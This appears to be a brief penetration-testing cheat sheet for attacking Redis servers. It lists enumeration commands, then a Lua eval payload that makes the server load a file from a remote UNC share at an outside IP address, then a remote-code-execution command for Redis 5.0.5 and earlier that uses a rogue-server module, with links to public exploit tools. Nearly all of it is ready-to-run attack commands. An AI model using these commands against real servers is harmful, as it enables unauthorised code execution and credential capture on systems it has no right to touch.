 # Enumeration
```
redis-cli -h ip
config get *
```

# eval 
```
eval "dofile('\\\\\\\\10.21.176.25\\\\teest')" 0
```
# Redis RCE <=5.0.5
```
python3 redis-rce.py -r 127.0.0.1 -L 127.0.0.1 -f exp.so

https://github.com/n0b0dyCN/redis-rogue-server/blob/master/exp.so
https://github.com/Ridter/redis-rce/blob/master/redis-rce.py
```
